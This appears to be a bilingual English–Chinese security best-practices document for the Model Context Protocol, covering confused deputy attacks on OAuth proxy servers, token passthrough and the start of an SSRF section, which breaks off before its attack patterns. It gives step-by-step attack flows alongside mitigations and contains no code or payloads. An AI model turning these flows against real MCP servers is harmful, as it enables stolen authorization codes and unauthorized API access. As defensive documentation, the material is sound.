





<BiRow>
<template #en>

> Security considerations, attack vectors, and best practices for MCP implementations

</template>
<template #zh>

> MCP 实现的安全注意事项、攻击向量与最佳实践

</template>
</BiRow>

<BiRow>
<template #en>

## Introduction

</template>
<template #zh>

## 引言

</template>
</BiRow>

<BiRow>
<template #en>

### Purpose and Scope

</template>
<template #zh>

### 目的与范围

</template>
</BiRow>

<BiRow>
<template #en>

This document provides security considerations for the Model Context
Protocol (MCP), complementing the
[MCP Authorization](https://modelcontextprotocol.io/specification/latest/basic/authorization)
specification. This document identifies security risks, attack vectors,
and best practices specific to MCP implementations.

</template>
<template #zh>

本文为模型上下文协议（Model Context Protocol，MCP）提供安全方面的考量，作为 [MCP 授权](https://modelcontextprotocol.io/specification/latest/basic/authorization)规范的补充。本文识别 MCP 实现特有的安全风险、攻击向量与最佳实践。

</template>
</BiRow>

<BiRow>
<template #en>

The primary audience for this document includes developers implementing
MCP authorization flows, MCP server operators, and security
professionals evaluating MCP-based systems. This document should be read
alongside the MCP Authorization specification and
[OAuth 2.0 security best practices](https://datatracker.ietf.org/doc/html/rfc9700).

</template>
<template #zh>

本文档的主要读者包括：实现 MCP 授权流程的开发者、MCP 服务器运营者，以及评估基于 MCP 的系统的安全专业人员。本文应与 MCP 授权规范以及 [OAuth 2.0 安全最佳实践](https://datatracker.ietf.org/doc/html/rfc9700)结合阅读。

</template>
</BiRow>

<BiRow>
<template #en>

## Attacks and Mitigations

</template>
<template #zh>

## 攻击与缓解措施

</template>
</BiRow>

<BiRow>
<template #en>

This section gives a detailed description of attacks on MCP
implementations, along with potential countermeasures.

</template>
<template #zh>

本节详细描述针对 MCP 实现的攻击，以及可能的应对措施。

</template>
</BiRow>

<BiRow>
<template #en>

### Confused Deputy Problem

</template>
<template #zh>

### 混淆代理问题（Confused Deputy Problem）

</template>
</BiRow>

<BiRow>
<template #en>

Attackers can exploit MCP proxy servers that connect to third-party
APIs, creating
"[confused deputy](https://en.wikipedia.org/wiki/Confused_deputy_problem)"
vulnerabilities. This attack allows malicious clients to obtain
authorization codes without proper user consent by exploiting the
combination of static client IDs, dynamic client registration, and
consent cookies.

</template>
<template #zh>

攻击者可以利用连接第三方 API 的 MCP 代理服务器，制造「[混淆代理](https://en.wikipedia.org/wiki/Confused_deputy_problem)」漏洞。这种攻击利用静态客户端 ID、动态客户端注册与同意 Cookie 的组合，使恶意客户端在未经用户正当同意的情况下拿到授权码。

</template>
</BiRow>

<BiRow>
<template #en>

#### Terminology

</template>
<template #zh>

#### 术语

</template>
</BiRow>

<BiRow>
<template #en>

**MCP Proxy Server**
: An MCP server that connects MCP clients to third-party APIs, offering
MCP features while delegating operations and acting as a single OAuth
client to the third-party API server.

</template>
<template #zh>

**MCP 代理服务器**
: 一种把 MCP 客户端连接到第三方 API 的 MCP 服务器。它对外提供 MCP 能力，同时把操作委托给第三方，并作为单一 OAuth 客户端与第三方 API 服务器交互。

</template>
</BiRow>

<BiRow>
<template #en>

**Third-Party Authorization Server**
: Authorization server that protects the third-party API. It may lack
dynamic client registration support, requiring the MCP proxy to use a
static client ID for all requests.

</template>
<template #zh>

**第三方授权服务器**
: 保护第三方 API 的授权服务器。它可能不支持动态客户端注册，因此 MCP 代理必须对所有请求使用静态客户端 ID。

</template>
</BiRow>

<BiRow>
<template #en>

**Third-Party API**
: The protected resource server that provides the actual API
functionality. Access to this API requires tokens issued by the
third-party authorization server.

</template>
<template #zh>

**第三方 API**
: 提供实际 API 功能的受保护资源服务器。访问该 API 需要由第三方授权服务器签发的令牌。

</template>
</BiRow>

<BiRow>
<template #en>

**Static Client ID**
: A fixed OAuth 2.0 client identifier used by the MCP proxy server when
communicating with the third-party authorization server. This Client ID
refers to the MCP server acting as a client to the Third-Party API. It
is the same value for all MCP server to Third-Party API interactions
regardless of which MCP client initiated the request.

</template>
<template #zh>

**静态客户端 ID**
: MCP 代理服务器与第三方授权服务器通信时使用的固定 OAuth 2.0 客户端标识符。此客户端 ID 代表的是 MCP 服务器作为第三方 API 客户端时的身份。无论请求由哪个 MCP 客户端发起，所有 MCP 服务器与第三方 API 的交互使用的都是同一个值。

</template>
</BiRow>

<BiRow>
<template #en>

#### Vulnerable Conditions

</template>
<template #zh>

#### 漏洞成立条件

</template>
</BiRow>

<BiRow>
<template #en>

This attack becomes possible when all of the following conditions are
present:

</template>
<template #zh>

当以下条件全部满足时，这种攻击才有可能发生：

</template>
</BiRow>

<BiRow>
<template #en>

* MCP proxy server uses a **static client ID** with a third-party
  authorization server
* MCP proxy server allows MCP clients to **dynamically register** (each
  getting their own client\_id)
* The third-party authorization server sets a **consent cookie** after
  the first authorization
* MCP proxy server does not implement proper per-client consent before
  forwarding to third-party authorization

</template>
<template #zh>

* MCP 代理服务器对第三方授权服务器使用**静态客户端 ID**
* MCP 代理服务器允许 MCP 客户端**动态注册**（每个客户端获得自己的 client_id）
* 第三方授权服务器在首次授权后设置**同意 Cookie**
* MCP 代理服务器在转发到第三方授权之前，没有实现正确的按客户端同意

</template>
</BiRow>

<BiRow>
<template #en>

#### Architecture and Attack Flows

</template>
<template #zh>

#### 架构与攻击流程

</template>
</BiRow>

<BiRow>
<template #en>

##### Normal OAuth proxy usage (preserves user consent)

</template>
<template #zh>

##### 正常的 OAuth 代理用法（保留用户同意）

</template>
</BiRow>

<BiRow>
<template #en>



</template>
<template #zh>


</template>
</BiRow>

<BiRow>
<template #en>

##### Malicious OAuth proxy usage (skips user consent)

</template>
<template #zh>

##### 恶意的 OAuth 代理用法（跳过用户同意）

</template>
</BiRow>

<BiRow>
<template #en>



</template>
<template #zh>


</template>
</BiRow>

<BiRow>
<template #en>

#### Attack Description

</template>
<template #zh>

#### 攻击描述

</template>
</BiRow>

<BiRow>
<template #en>

When an MCP proxy server uses a static client ID to authenticate with
a third-party authorization server, the following attack becomes
possible:

</template>
<template #zh>

当 MCP 代理服务器使用静态客户端 ID 向第三方授权服务器进行认证时，以下攻击就成为可能：

</template>
</BiRow>

<BiRow>
<template #en>

1. A user authenticates normally through the MCP proxy server to access
   the third-party API
2. During this flow, the third-party authorization server sets a cookie
   on the user agent indicating consent for the static client ID
3. An attacker later sends the user a malicious link containing a
   crafted authorization request which contains a malicious redirect URI
   along with a new dynamically registered client ID
4. When the user clicks the link, their browser still has the consent
   cookie from the previous legitimate request
5. The third-party authorization server detects the cookie and skips the
   consent screen
6. The MCP authorization code is redirected to the attacker's server
   (specified in the malicious `redirect_uri` parameter during
   [dynamic client registration](https://modelcontextprotocol.io/specification/latest/basic/authorization#dynamic-client-registration))
7. The attacker exchanges the stolen authorization code for access
   tokens for the MCP server without the user's explicit approval
8. The attacker now has access to the third-party API as the compromised
   user

</template>
<template #zh>

1. 用户通过 MCP 代理服务器正常完成认证，以访问第三方 API
2. 在此流程中，第三方授权服务器在用户代理上设置一个 Cookie，表明用户已同意该静态客户端 ID
3. 此后，攻击者向用户发送一个恶意链接，其中包含一个精心构造的授权请求：带有恶意重定向 URI，以及一个新动态注册的客户端 ID
4. 用户点击链接时，其浏览器仍保留着上一次合法请求留下的同意 Cookie
5. 第三方授权服务器检测到该 Cookie，于是跳过同意页面
6. MCP 授权码被重定向到攻击者的服务器（该地址在[动态客户端注册](https://modelcontextprotocol.io/specification/latest/basic/authorization#dynamic-client-registration)时通过恶意的 `redirect_uri` 参数指定）
7. 攻击者用窃取的授权码换取 MCP 服务器的访问令牌，全程无需用户明确批准
8. 攻击者至此便能以受害用户的身份访问第三方 API

</template>
</BiRow>

<BiRow>
<template #en>

#### Mitigation

</template>
<template #zh>

#### 缓解措施

</template>
</BiRow>

<BiRow>
<template #en>

To prevent confused deputy attacks, MCP proxy servers **MUST** implement
per-client consent and proper security controls as detailed below.

</template>
<template #zh>

为防止混淆代理攻击，MCP 代理服务器**必须（MUST）**实现按客户端逐一同意，以及下文详述的适当安全控制。

</template>
</BiRow>

<BiRow>
<template #en>

##### Consent Flow Implementation

</template>
<template #zh>

##### 同意流程的实现

</template>
</BiRow>

<BiRow>
<template #en>

The following diagram shows how to properly implement per-client consent
that runs **before** the third-party authorization flow:

</template>
<template #zh>

下图展示了如何正确实现**先于**第三方授权流程执行的按客户端同意：

</template>
</BiRow>

<BiRow>
<template #en>



</template>
<template #zh>


</template>
</BiRow>

<BiRow>
<template #en>

##### Required Protections

</template>
<template #zh>

##### 必备防护

</template>
</BiRow>

<BiRow>
<template #en>

**Per-Client Consent Storage**

</template>
<template #zh>

**按客户端存储同意记录**

</template>
</BiRow>

<BiRow>
<template #en>

MCP proxy servers **MUST**:

</template>
<template #zh>

MCP 代理服务器**必须（MUST）**：

</template>
</BiRow>

<BiRow>
<template #en>

* Maintain a registry of approved `client_id` values per user
* Check this registry **before** initiating the third-party
  authorization flow
* Store consent decisions securely (server-side database, or server
  specific cookies)

</template>
<template #zh>

* 为每个用户维护一份已批准 `client_id` 的注册表
* 在发起第三方授权流程**之前**检查该注册表
* 安全地存储同意决定（服务器端数据库，或服务器专属的 Cookie）

</template>
</BiRow>

<BiRow>
<template #en>

**Consent UI Requirements**

</template>
<template #zh>

**同意界面的要求**

</template>
</BiRow>

<BiRow>
<template #en>

The MCP-level consent page **MUST**:

</template>
<template #zh>

MCP 层的同意页面**必须（MUST）**：

</template>
</BiRow>

<BiRow>
<template #en>

* Clearly identify the requesting MCP client by name
* Display the specific third-party API scopes being requested
* Show the registered `redirect_uri` where tokens will be sent
* Implement CSRF protection (e.g., state parameter, CSRF tokens)
* Prevent iframing via `frame-ancestors` CSP directive or
  `X-Frame-Options: DENY` to prevent clickjacking

</template>
<template #zh>

* 以名称明确标识发起请求的 MCP 客户端
* 显示正在请求的具体第三方 API 作用域
* 显示令牌将被发送到的已注册 `redirect_uri`
* 实现 CSRF 防护（如 state 参数、CSRF 令牌）
* 通过 `frame-ancestors` CSP 指令或 `X-Frame-Options: DENY` 禁止 iframing，以防点击劫持

</template>
</BiRow>

<BiRow>
<template #en>

**Consent Cookie Security**

</template>
<template #zh>

**同意 Cookie 的安全**

</template>
</BiRow>

<BiRow>
<template #en>

If using cookies to track consent decisions, they **MUST**:

</template>
<template #zh>

如果使用 Cookie 跟踪同意决定，则这些 Cookie **必须（MUST）**：

</template>
</BiRow>

<BiRow>
<template #en>

* Use `__Host-` prefix for cookie names
* Set `Secure`, `HttpOnly`, and `SameSite=Lax` attributes
* Be cryptographically signed or use server-side sessions
* Bind to the specific `client_id` (not just "user has consented")

</template>
<template #zh>

* Cookie 名称使用 `__Host-` 前缀
* 设置 `Secure`、`HttpOnly` 和 `SameSite=Lax` 属性
* 经过密码学签名，或使用服务器端会话
* 绑定到具体的 `client_id`（而不只是「用户已同意」）

</template>
</BiRow>

<BiRow>
<template #en>

**Redirect URI Validation**

</template>
<template #zh>

**重定向 URI 校验**

</template>
</BiRow>

<BiRow>
<template #en>

The MCP proxy server **MUST**:

</template>
<template #zh>

MCP 代理服务器**必须（MUST）**：

</template>
</BiRow>

<BiRow>
<template #en>

* Validate that the `redirect_uri` in authorization requests exactly
  matches the registered URI
* Reject requests if the `redirect_uri` has changed without
  re-registration
* Use exact string matching (not pattern matching or wildcards)

</template>
<template #zh>

* 校验授权请求中的 `redirect_uri` 与已注册 URI 完全一致
* 若 `redirect_uri` 在未重新注册的情况下发生变化，则拒绝请求
* 使用精确字符串匹配（而非模式匹配或通配符）

</template>
</BiRow>

<BiRow>
<template #en>

**OAuth State Parameter Validation**

</template>
<template #zh>

**OAuth state 参数校验**

</template>
</BiRow>

<BiRow>
<template #en>

The OAuth `state` parameter is critical to prevent authorization code
interception and CSRF attacks. Proper state validation ensures that
consent approval at the authorization endpoint is enforced at the
callback endpoint.

</template>
<template #zh>

OAuth `state` 参数对防止授权码截获和 CSRF 攻击至关重要。正确的 state 校验能确保在授权端点完成的同意批准在回调端点得到强制执行。

</template>
</BiRow>

<BiRow>
<template #en>

MCP proxy servers implementing OAuth flows **MUST**:

</template>
<template #zh>

实现 OAuth 流程的 MCP 代理服务器**必须（MUST）**：

</template>
</BiRow>

<BiRow>
<template #en>

* Generate a cryptographically secure random `state` value for each
  authorization request
* Store the `state` value server-side (in a secure session store or
  encrypted cookie) **only after** consent has been explicitly approved
* Set the `state` tracking cookie/session **immediately before**
  redirecting to the third-party identity provider (not before consent
  approval)
* Validate at the callback endpoint that the `state` query parameter
  exactly matches the stored value in the callback request's cookies or
  in the request's cookie-based session
* Reject any callback requests where the `state` parameter is missing
  or does not match
* Ensure `state` values are single-use (delete after validation) and
  have a short expiration time (e.g., 10 minutes)

</template>
<template #zh>

* 为每个授权请求生成密码学安全的随机 `state` 值
* 仅在同意被明确批准**之后**，才在服务器端存储 `state` 值（存入安全会话存储或加密 Cookie）
* **恰在**重定向到第三方身份提供方之前（而不是在同意批准之前）设置携带 `state` 的跟踪 Cookie/会话
* 在回调端点校验 `state` 查询参数，确保它与回调请求 Cookie（或请求的基于 Cookie 的会话）中存储的值完全一致
* 拒绝任何 `state` 参数缺失或不匹配的回调请求
* 确保 `state` 值一次性使用（校验后即删除）且过期时间短（如 10 分钟）

</template>
</BiRow>

<BiRow>
<template #en>

The consent cookie or session containing the `state` value **MUST NOT**
be set until **after** the user has approved the consent screen at the
MCP server's authorization endpoint. Setting this cookie before consent
approval renders the consent screen ineffective, as an attacker could
bypass it by crafting a malicious authorization request.

</template>
<template #zh>

在用户于 MCP 服务器的授权端点批准同意页面**之前**，包含 `state` 值的同意 Cookie 或会话**不得（MUST NOT）**设置。若在同意批准前就设置该 Cookie，同意页面将形同虚设——攻击者可以构造恶意授权请求绕过它。

</template>
</BiRow>

<BiRow>
<template #en>

### Token Passthrough

</template>
<template #zh>

### 令牌透传（Token Passthrough）

</template>
</BiRow>

<BiRow>
<template #en>

"Token passthrough" is an anti-pattern where an MCP server accepts
tokens from an MCP client without validating that the tokens were
properly issued *to the MCP server* and passes them through to the
downstream API.

</template>
<template #zh>

「令牌透传」是一种反模式：MCP 服务器接受来自 MCP 客户端的令牌时，不校验这些令牌是否*专门签发给该 MCP 服务器*，就把它们转发给下游 API。

</template>
</BiRow>

<BiRow>
<template #en>

An attacker can gain unauthorized access or otherwise compromise an
MCP server if the server accepts tokens issued for other resources.
This vulnerability has two critical dimensions:

</template>
<template #zh>

如果服务器接受为其他资源签发的令牌，攻击者就能获得未授权访问，或以其他方式攻陷 MCP 服务器。该漏洞有两个关键维度：

</template>
</BiRow>

<BiRow>
<template #en>

1. **Audience validation failures.** When an MCP server doesn't verify
   that tokens were specifically intended for it (for example, via the
   audience claim, as mentioned in
   [RFC9068](https://www.rfc-editor.org/rfc/rfc9068.html)), it may
   accept tokens originally issued for other services. This breaks a
   fundamental OAuth security boundary, allowing attackers to reuse
   legitimate tokens across different services than intended.
2. **Token passthrough.** If the MCP server not only accepts tokens
   with incorrect audiences but also forwards these unmodified tokens
   to downstream services, it can potentially cause the
   ["confused deputy" problem](#confused-deputy-problem), where the
   downstream API may incorrectly trust the token as if it came from
   the MCP server or assume the token was validated by the upstream
   API.

</template>
<template #zh>

1. **受众校验缺失。** 当 MCP 服务器不去校验令牌是否专门签发给自己（例如通过 [RFC9068](https://www.rfc-editor.org/rfc/rfc9068.html) 所述的 audience 声明）时，它可能接受原本为其他服务签发的令牌。这破坏了 OAuth 的一条根本安全边界，使攻击者能在预期之外的其他服务间重用合法令牌。
2. **令牌透传。** 如果 MCP 服务器不仅接受受众不正确的令牌，还把这些未修改的令牌转发给下游服务，就可能引发[「混淆代理」问题](#confused-deputy-problem)：下游 API 可能错误地信任该令牌，仿佛它来自 MCP 服务器，或者以为令牌已被上游 API 校验过。

</template>
</BiRow>

<BiRow>
<template #en>

#### Risks

</template>
<template #zh>

#### 风险

</template>
</BiRow>

<BiRow>
<template #en>

Token passthrough is explicitly forbidden in the
[authorization specification](https://modelcontextprotocol.io/specification/latest/basic/authorization)
as it introduces a number of security risks, that include:

</template>
<template #zh>

令牌透传在[授权规范](https://modelcontextprotocol.io/specification/latest/basic/authorization)中被明确禁止，因为它会引入多项安全风险，包括：

</template>
</BiRow>

<BiRow>
<template #en>

* **Security Control Circumvention**
  * The MCP Server or downstream APIs might implement important security
controls like rate limiting, request validation, or traffic
monitoring, that depend on the token audience or other credential
constraints. If clients can obtain and use tokens directly with the
downstream APIs without the MCP server validating them properly or
ensuring that the tokens are issued for the right service, they
bypass these controls.
* **Accountability and Audit Trail Issues**
  * The MCP Server will be unable to identify or distinguish between MCP
Clients when clients are calling with an upstream-issued access token
which may be opaque to the MCP Server.
  * The downstream Resource Server's logs may show requests that appear
to come from a different source with a different identity, rather
than the MCP server that is actually forwarding the tokens.
  * Both factors make incident investigation, controls, and auditing
more difficult.
  * If the MCP Server passes tokens without validating their claims
(e.g., roles, privileges, or audience) or other metadata, a
malicious actor in possession of a stolen token can use the server
as a proxy for data exfiltration.
* **Trust Boundary Issues**
  * The downstream Resource Server grants trust to specific entities.
This trust might include assumptions about origin or client behavior
patterns. Breaking this trust boundary could lead to unexpected
issues.
  * If the token is accepted by multiple services without proper
validation, an attacker compromising one service can use the token
to access other connected services.
* **Future Compatibility Risk**
  * Even if an MCP Server starts as a "pure proxy" today, it might need
to add security controls later. Starting with proper token audience
separation makes it easier to evolve the security model.

</template>
<template #zh>

* **安全控制被绕过**
  * MCP 服务器或下游 API 可能实现了依赖令牌受众或其他凭据约束的重要安全控制，例如限流、请求校验或流量监控。如果客户端能够获取令牌并直接对下游 API 使用，而 MCP 服务器既未正确校验令牌、也未确保令牌是签发给正确服务的，这些控制就会被绕过。
* **问责与审计线索问题**
  * 当客户端携带上游签发的访问令牌发起调用时，该令牌对 MCP 服务器可能是不透明的，MCP 服务器将无法识别或区分不同的 MCP 客户端。
  * 在下游资源服务器的日志里，请求看起来可能来自另一个身份、另一个来源，而不是实际转发令牌的那台 MCP 服务器。
  * 这两点都会让事件调查、控制与审计更加困难。
  * 如果 MCP 服务器转发令牌时不校验其声明（如角色、权限或受众）或其他元数据，持有窃取令牌的恶意行为者就可以把该服务器当作数据外泄的代理。
* **信任边界问题**
  * 下游资源服务器会向特定实体授予信任，这种信任可能包含对来源或客户端行为模式的假设。打破这一信任边界可能引发意想不到的问题。
  * 如果令牌未经正确校验就被多个服务接受，攻陷其中一个服务的攻击者就能用该令牌访问其他相连的服务。
* **未来兼容性风险**
  * 即便某个 MCP 服务器今天以「纯代理」起步，将来也可能需要添加安全控制。从一开始就做好令牌受众隔离，会让安全模型的演进更容易。

</template>
</BiRow>

<BiRow>
<template #en>

#### Mitigation

</template>
<template #zh>

#### 缓解措施

</template>
</BiRow>

<BiRow>
<template #en>

MCP servers **MUST NOT** accept any tokens that were not explicitly
issued for the MCP server.

</template>
<template #zh>

MCP 服务器**不得（MUST NOT）**接受任何并非明确签发给该 MCP 服务器的令牌。

</template>
</BiRow>

<BiRow>
<template #en>

### Server-Side Request Forgery (SSRF)

</template>
<template #zh>

### 服务器端请求伪造（SSRF）

</template>
</BiRow>

<BiRow>
<template #en>

Server-Side Request Forgery (SSRF) is an attack where an attacker can
induce an MCP client to make HTTP requests to unintended destinations,
potentially accessing internal network resources, cloud metadata
endpoints, or other protected services.

</template>
<template #zh>

服务器端请求伪造（SSRF）是这样一类攻击：攻击者诱使 MCP 客户端向非预期目标发起 HTTP 请求，进而可能访问内网资源、云元数据端点或其他受保护服务。

</template>
</BiRow>

<BiRow>
<template #en>

#### Attack Description

</template>
<template #zh>

#### 攻击描述

</template>
</BiRow>

<BiRow>
<template #en>

During OAuth metadata discovery, MCP clients fetch URLs from several
sources that could be controlled by a malicious MCP server:

</template>
<template #zh>

在 OAuth 元数据发现过程中，MCP 客户端会从多个来源获取 URL，而这些来源可能受恶意 MCP 服务器控制：

</template>
</BiRow>

<BiRow>
<template #en>

1. The `resource_metadata` URL from the `WWW-Authenticate` header
2. The `authorization_servers` URLs from the Protected Resource Metadata
   document
3. The `token_endpoint`, `authorization_endpoint`, and other URLs from
   Authorization Server Metadata

</template>
<template #zh>

1. `WWW-Authenticate` 头中的 `resource_metadata` URL
2. 受保护资源元数据文档中的 `authorization_servers` URL
3. 授权服务器元数据中的 `token_endpoint`、`authorization_endpoint` 等 URL

</template>
</BiRow>

<BiRow>
<template #en>

A malicious MCP server can populate these fields with URLs pointing to
internal resources, enabling the following attack patterns:

</template>
<template #zh>

恶意 MCP 服务器可以在这些字段中填入指向内部资源的 URL，从而实现以下攻击模式：

</template>
</BiRow>

<BiRow>
<template #en>

